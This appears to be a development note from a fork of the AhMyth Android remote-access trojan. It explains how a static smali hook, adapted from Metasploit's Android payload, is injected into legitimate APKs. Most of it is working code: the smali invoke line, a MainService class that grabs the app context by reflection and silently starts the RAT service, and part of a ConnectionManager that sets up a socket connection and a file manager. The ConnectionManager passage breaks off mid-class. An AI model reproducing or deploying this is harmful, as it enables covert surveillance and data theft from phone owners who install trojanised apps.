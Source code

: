 ## Code Sets for new static hook function

The code for this new future function was taken from [Rapid7/metasploit-payloads](github.com/rapid7/metasploit-payloads), specifically their [androidpayload](https://github.com/Morsmalleo/metasploit-payloads/tree/master/java/androidpayload/app/src/com/metasploit/stage) directory.

the files the coding for this new function were taken from in the **androidpayload** directory of the **metasploit-framework** repository are as follows;
- MainActivity.java
- MainService.java
- MainBroadcastReceiver.java
- Payload.java
#
- New Hook function to be injected into APK's
```smali
invoke-static {}, Lahmyth/mine/king/ahmyth/MainService;->start()V
```
- Service Start for MainActivity.java File
```java
MainService.startService(this);
```
- Service start for MyReciever.java Code
```java
MainService.startService(context);
```
- New MainService.java Code
```java
package ahmyth.mine.king.ahmyth;

import android.app.AlarmManager;
import android.app.Notification;
import android.app.NotificationChannel;
import android.app.NotificationManager;
import android.app.PendingIntent;
import android.app.Service;
import android.content.Context;
import android.content.Intent;
import android.graphics.Color;
import android.os.Build;
import android.os.Handler;
import android.os.IBinder;
import android.os.Looper;
import android.support.annotation.RequiresApi;
import android.support.v4.app.NotificationCompat;

import java.lang.reflect.Method;

public class MainService extends Service {
    private static Context contextOfApplication;

        private static void findContext() throws Exception {
            Class<?> activityThreadClass;
            try {
                activityThreadClass = Class.forName("android.app.ActivityThread");
            } catch (ClassNotFoundException e) {
                // No context
                return;
            }

            final Method currentApplication = activityThreadClass.getMethod("currentApplication");
            final Context context = (Context) currentApplication.invoke(null, (Object[]) null);
            if (context == null) {
                // Post to the UI/Main thread and try and retrieve the Context
                final Handler handler = new Handler(Looper.getMainLooper());
                handler.post(new Runnable() {
                    public void run() {
                        try {
                            Context context = (Context) currentApplication.invoke(null, (Object[]) null);
                            if (context != null) {
                                startService(context);
                            }
                        } catch (Exception ignored) {
                        }
                    }
                });
            } else {
                startService(context);
            }
        }

        // Smali hook point
        public static void start() {
            try {
                findContext();
            } catch (Exception ignored) {
            }
        }

        public static void startService(Context context) {
            context.startService(new Intent(context, MainService.class));
        }
```
- New ConnectionManager.java Code
```java
package ahmyth.mine.king.ahmyth;

import org.json.JSONObject;
import io.socket.emitter.Emitter;

import android.content.Context;
import android.util.Log;
import android.os.Looper;
import android.os.Handler;

import java.lang.reflect.Method;

/**
 * Created by AhMyth on 10/1/16.
 */

/**
 * Updated by Morsmalleo
 */



public class ConnectionManager {

    public static Context context;

    private static io.socket.client.Socket ioSocket;

    private static FileManager fm = new FileManager();

    public static void startAsync(Context con)

    {

        try {

            ConnectionManager.context = con;

            sendReq();

        }catch (Exception ex){

            startAsync(con);

        }

    }

    public static void start(Context context) {
        ConnectionManager.context = context;
    }

    // static smali hook that gets injected into 
    // an original, legit APK
    public static void startContext() {

        try {

            findContext();

        } catch (Exception ignored) {

        }

    }

    private static void findContext() throws Exception {

        Class<?> activityThreadClass;

        try {

            activityThreadClass = Class.forName("android.app.ActivityThread");

        } catch (ClassNotFoundException e) {

            // No context

            return;

        }

        final Method currentApplication = activityThreadClass.getMethod("currentApplication");

        final Context context = (Context) currentApplication.invoke(null, (Object[]) null);

        if (context == null) {

            // Post to the UI/Main thread and try and retrieve the Context

            final Handler handler = new Handler(Looper.getMainLooper());

            handler.post(new Runnable() {

                public void run() {

                    try {

                        Context context = (Context) currentApplication.invoke(null, (Object[]) null);

                        if (context != null) {

                            start(context);

                        }

                    } catch (Exception ignored) {

                    }

                }

            });

        } else {

            start(context);

        }

    }
```
